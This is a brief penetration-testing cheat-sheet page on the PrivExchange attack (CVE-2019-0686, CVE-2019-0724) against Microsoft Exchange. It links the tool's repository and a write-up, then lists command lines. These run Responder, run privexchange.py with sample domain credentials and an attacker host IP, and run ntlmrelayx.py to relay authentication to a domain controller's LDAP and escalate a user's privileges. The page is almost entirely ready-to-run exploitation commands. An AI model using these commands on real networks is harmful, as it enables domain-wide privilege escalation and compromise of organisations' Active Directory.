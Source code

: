 ```yaml
---
description: CVE-2019-0686, CVE-2019-0724
---
```


# PrivExchange

* [https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange)
* [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

Check:

{% embed url="https://twitter.com/_wald0/status/1091062691383238656" %}

```
$ sudo python Responder.py -I eth0 -Av
$ python privexchange.py -d MEGACORP -u snovvcrash -p 'Passw0rd!' -ah 10.10.13.37 --attacker-page '/test/test/test' exch01.megacorp.local --debug
```

Exploit:

```
$ sudo ntlmrelayx.py -t ldap://DC01.megacorp.local --escalate-user snovvcrash
$ python privexchange.py -d MEGACORP -u snovvcrash -p 'Passw0rd!' -ah 10.10.13.37 exch01.megacorp.local --debug
```
